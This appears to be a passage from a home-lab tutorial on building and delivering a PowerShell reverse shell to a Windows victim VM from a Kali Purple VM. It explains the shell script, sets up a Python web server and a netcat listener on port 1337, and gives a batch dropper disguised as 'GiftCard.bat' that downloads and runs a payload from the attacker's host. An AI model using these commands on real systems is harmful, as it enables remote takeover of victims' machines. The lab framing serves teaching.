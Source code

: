 **Here's a breakdown of the reverse shell script:**

1. **Setting up variables:**
    - **`$a`**: IP address to connect to (**`192.168.1.198`**).
    - **`$b`**: Port number to connect to (**`1337`**).
    - **`$c`**: TCP client object.
    - **`$nb`**: Byte array for receiving data from the network stream.
    - **`$ob`**: Byte array for storing output from the local process.
    - **`$eb`**: Byte array for storing error output from the local process.
    - **`$e`**: UTF-8 encoding object.
    - **`$p`**: Process object for **`cmd.exe`**.
2. **Connecting to the remote host:**
    - Establishes a TCP connection to the specified IP address and port.
3. **Setting up input/output streams for `cmd.exe`:**
    - Redirects the standard input, output, and error streams of the **`cmd.exe`** process.
4. **Starting the `cmd.exe` process:**
    - Starts the **`cmd.exe`** process with the configured settings.
5. **Reading and Writing Loop:**
    - Enters into an infinite loop that continually checks for data to read or write.
    - If there is data available from the local process's standard output or error streams, it is sent to the remote host.
    - If there is data available from the remote host, it is written to the standard input of the local process (**`cmd.exe`**).
    - The loop also checks for the termination conditions:
        - If the connection is closed (**`$c.Connected -ne $true`**).
        - If there is no data to read from the local process's standard output or error streams.
        - If the local process (**`cmd.exe`**) exits.

In summary, this script is a simple reverse shell that connects to a specified IP address and port, establishes a command prompt (**`cmd.exe`**), and allows for remote command execution. 

2) Stand up a python webserver on your Kali Purple VM using the command below.

```powershell
python3 -m http.server
```

3) In a different terminal on your Kali Purple VM, install netcat using the command below. (If not already installed.)

```powershell
sudo apt install netcat-traditional
```

4) Set up a netcat listener on port 1337 using the command below.

```powershell
nc -lvp 1337
```

### Windows Victim Setup

Create the following bat file by copying and pasting the code below into a notepad++/ notepad file on your Windows VM and saving the file as “GiftCard.bat”.

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI [http://192.168.1.198:8000/shell.](http://192.168.8.151:8000/shell.bat)txt -OutFile c:\Windows\Temp\shell.bat; c:\Windows\Temp\shell.bat"
```
